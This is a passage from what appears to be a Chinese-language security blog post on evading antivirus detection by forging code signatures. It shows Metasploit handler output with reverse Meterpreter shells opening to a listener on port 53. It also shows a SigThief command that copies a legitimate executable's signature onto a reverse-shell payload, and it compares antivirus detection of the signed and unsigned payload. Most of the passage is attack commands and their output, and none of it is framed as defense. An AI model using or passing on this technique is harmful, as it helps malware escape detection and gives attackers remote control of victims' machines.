     24
    25 msf exploit(multi/handler) > exploit
    26
    27 [*] Started reverse TCP handler on 192.168.1.104:53 
    28 [*] Sending stage (206403 bytes) to 192.168.1.101 
    29 [*] Meterpreter session 2 opened (192.168.1.104:53 ‐> 192.168.1.101:32 56) at 2019‐02‐19 08:02:52 ‐0500 
    30
    31 meterpreter >
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201005102035111.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
伪造无效签名payload：

    1 [root@John html]# ~/SigThief/sigthief.py ‐i crashreporter.exe.ca ‐t tm p_rev53x_64.exe ‐o tmp_rev53x_64.ca.exe 
    2 Output file: tmp_rev53x_64.ca.exe 
    3 Signature appended. 
    4 FIN.
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F2020100510214233.png%23pic_center)

伪造签名：-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201005102149428.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
成功回连：

    1 msf exploit(multi/handler) > exploit 
    2
    3 [*] Started reverse TCP handler on 192.168.1.104:53 
    4 [*] Sending stage (206403 bytes) to 192.168.1.101 
    5 [*] Meterpreter session 3 opened (192.168.1.104:53 ‐> 192.168.1.101:32 59) at 2019‐02‐19 08:04:11 ‐0500 
    6
    7 meterpreter > getpid 
    8 Current pid: 972 
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201005102302612.png%23pic_center)

靶机查看：-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201005102308548.png%23pic_center)

世界杀毒网：原始payload VS 原始payload签名伪造

无证书伪造，无免杀：-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201005102347881.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

仅证书伪造，无免杀：-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201005102356365.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)
